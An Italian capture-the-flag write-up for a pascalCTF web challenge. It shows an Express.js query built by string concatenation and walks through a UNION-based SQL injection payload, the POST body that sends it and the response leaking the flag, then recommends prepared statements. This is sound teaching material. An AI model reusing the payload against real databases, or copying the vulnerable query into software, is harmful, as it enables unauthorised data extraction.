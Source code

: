 # Writeup: EURO 2024

## Overview
- **Categoria**: Web
- **Autore**: elia (basato su info da pianka)
- **Difficoltà**: (non specificata)
- **URL**: [https://euro2024.challs.pascalctf.it](https://euro2024.challs.pascalctf.it)

## Descrizione 📝
L’applicazione espone un endpoint `/api/group-stats` che esegue una query SQL su un database PostgreSQL, restituendo le statistiche di un gruppo del torneo. Tuttavia, la query è vulnerabile a SQL Injection poiché i parametri vengono concatenati direttamente senza parametri preparati.

Esempio di codice:
```js
// pseudo-codice Express.js
let data = await db.query(`SELECT * FROM GROUP_STATS WHERE group_id = '${group}' ORDER BY ranking ASC`);
res.json({ data: data.rows });
```
La tabella `GROUP_STATS` ha 8 colonne, mentre la tabella `FLAG` ne ha solo 1 (`flag`). Obiettivo: estrarre la flag dalla tabella `FLAG`.

## Soluzione 🎯

### 1. Individuazione della Vulnerabilità
Inserendo il valore di `group` senza filtraggio nella query, si può iniettare codice SQL arbitrario. 

### 2. Uso di UNION
Per combinare i risultati di `GROUP_STATS` (8 colonne) con la colonna `flag` (1 colonna), dobbiamo costruire un finto set di 8 colonne. Esempio di payload:
```
A' UNION SELECT 'X', flag, 0, 0, 0, 0, 0, 0 FROM FLAG --
```
- **`A'`**: chiude la stringa `group_id = 'A'`.
- **`UNION SELECT ... FROM FLAG`**: seleziona la flag nella seconda colonna, riempiendo le altre 7 con valori fittizi compatibili (CHAR/VARCHAR/INT).
- **`--`**: commenta il resto della query (`ORDER BY ranking ASC`).

### 3. Invio della Richiesta
Tramite `POST /api/group-stats`, con JSON:
```json
{
  "group": "A' UNION SELECT 'X', flag, 0, 0, 0, 0, 0, 0 FROM FLAG --"
}
```
Il server esegue la query iniettata e restituisce un array di oggetti JSON. Oltre alle righe reali di `GROUP_STATS` per `group_id = 'A'`, c’è una riga aggiuntiva con `group_id = 'X'` e la `flag` in `team_name`.

### 4. Lettura della Flag
Nella risposta JSON, si troverà qualcosa del tipo:
```json
{
  "data": [
    { "group_id": "A", "team_name": "Germany", ... },
    { "group_id": "A", "team_name": "Switzerland", ... },
    { "group_id": "X", "team_name": "pascalCTF{fl4g_is_in_7h3_eyes_of_the_beh0lder}", ... }
  ]
}
```
La flag è `pascalCTF{fl4g_is_in_7h3_eyes_of_the_beh0lder}`.

## Lezioni Apprese 📚
1. **SQL Injection**: Concatenare parametri direttamente in query SQL è altamente pericoloso.
2. **UNION**: Permette di unire i risultati di due SELECT con lo stesso numero di colonne.
3. **Protezione**: L’uso di parametri preparati o ORM riduce il rischio di injection.

## Tools Utilizzati 🛠️
- **cURL / Postman**: Per inviare la richiesta POST con il payload.
- **Browser Dev Tools**: Per monitorare le richieste e ispezionare le risposte.
- **Database Skills**: Per costruire la query UNION corretta.

---

*Writeup by Luca Crippa - Last Updated: 2024*
